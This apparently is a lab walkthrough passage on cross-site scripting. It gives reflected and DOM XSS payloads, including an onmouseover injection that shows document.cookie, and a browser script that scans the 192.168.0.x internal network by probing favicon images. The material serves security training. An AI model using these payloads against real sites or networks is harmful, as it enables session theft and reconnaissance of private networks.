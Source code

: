 *Payload*: `<script>alert("Hello")</script>`

# Task 2:Craft a reflected XSS payload that will cause a popup with your machines IP address.

*Payload*:  `<script>alert(window.location.hostname)</script>`

# DOM XSS

With DOM-Based xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

## Task 1: Look at the deployed machines DOM-Based XSS page source code, and figure out a way to exploit it by executing an alert with your cookies.

*Payload*: `test" onmouseover="alert('Hover over the image and inspect the image element')"`

And once we hover over the image area we got the popup.

*Final Payload* : `test" onmouseover="alert(document.cookie)"`

## Task 2: Create an onhover event on an image tag, that change the background color of the website to red.

*Final Payload* : `test" onmouseover="document.body.style.backgroundColor = 'red'`

# Using XSS for Ip and Port Scanning

On the application layer your browser has no notion of internal and external IP addresses. So any website is able to tell your browser to request a resource from your internal network.

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`

Please keep in mind this is a proof of concept and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

```
<script>
 for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
 }
</script> 
```
